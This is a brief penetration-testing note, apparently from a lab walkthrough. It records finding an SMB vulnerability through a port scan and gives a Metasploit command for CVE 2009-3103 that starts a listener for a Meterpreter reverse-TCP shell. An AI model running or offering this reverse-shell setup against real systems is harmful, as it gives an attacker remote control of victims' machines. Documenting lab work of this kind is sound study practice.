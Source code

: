 
- Found a vulnerability by scanning the ports for SMB
- MSF command for 2009-3103
```bash
msfconsole -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST 192.168.45.189;set LPORT 443;run;"
```
